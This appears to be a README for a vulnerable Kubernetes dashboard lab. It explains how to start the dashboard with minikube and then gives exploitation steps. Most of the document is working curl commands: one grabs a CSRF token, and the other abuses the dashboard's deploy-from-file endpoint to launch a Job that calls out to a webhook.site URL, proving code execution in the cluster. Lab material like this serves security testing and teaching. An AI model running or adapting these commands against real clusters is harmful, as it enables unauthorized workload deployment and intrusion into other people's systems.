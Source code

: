 # Vulnerable Kubernetes Dashboard
we need docker to run the vulnerable kubernetes dashboard
```bash
curl -Lo minikube https://github.com/kubernetes/minikube/releases/latest/download/minikube-linux-amd64
./minikube start
./minikube dashboard
```
Ref: https://minikube.sigs.k8s.io/docs/start/?arch=%2Flinux%2Fx86-64%2Fstable%2Fbinary+download#Service
Ref: https://minikube.sigs.k8s.io/docs/handbook/dashboard/

## Exploitation steps
1. Start the vulnerable kubernetes dashboard
2. Get the port number of the kubernetes dashboard service and replace it in the curl commands below
```bash
# we need to get a fresh csrf token
curl 'http://127.0.0.1:43479/api/v1/namespaces/kubernetes-dashboard/services/http:kubernetes-dashboard:/proxy/api/v1/csrftoken/appdeploymentfromfile' \
  --compressed \
  -H 'Accept: application/json, text/plain, */*' \
#  {
# "token": "TIM-HcANnZ3XwpXVB9D745jtuYo:1753310053154"
#  }


# Change the old CSRF token(X-CSRF-TOKEN) to create a job
# Change the curl -s .... command to your webhook URL
curl 'http://127.0.0.1:43479/api/v1/namespaces/kubernetes-dashboard/services/http:kubernetes-dashboard:/proxy/api/v1/appdeploymentfromfile' \
  --compressed \
  -X POST \
  -H 'X-CSRF-TOKEN: TIM-HcANnZ3XwpXVB9D745jtuYo:1753310053154' \
  -H 'Content-Type: application/json' \
  --data-raw '{"name":"","namespace":"default","content":"apiVersion: batch/v1\nkind: Job\nmetadata:\n  name: curl-job\n  labels:\n    app: curl-example\nspec:\n  template:\n    metadata:\n      labels:\n        app: curl-example\n    spec:\n      containers:\n      - name: curl-container\n        image: curlimages/curl:latest\n        command: [\"/bin/sh\", \"-c\"]\n        args:\n        - ^|\n          curl -s https://webhook.site/0725a73b-854d-431f-92ae-de61dcfc2d57 ^|^| exit 0\n      restartPolicy: OnFailure\n  backoffLimit: 3\n  completions: 1","validate":true}'
  
```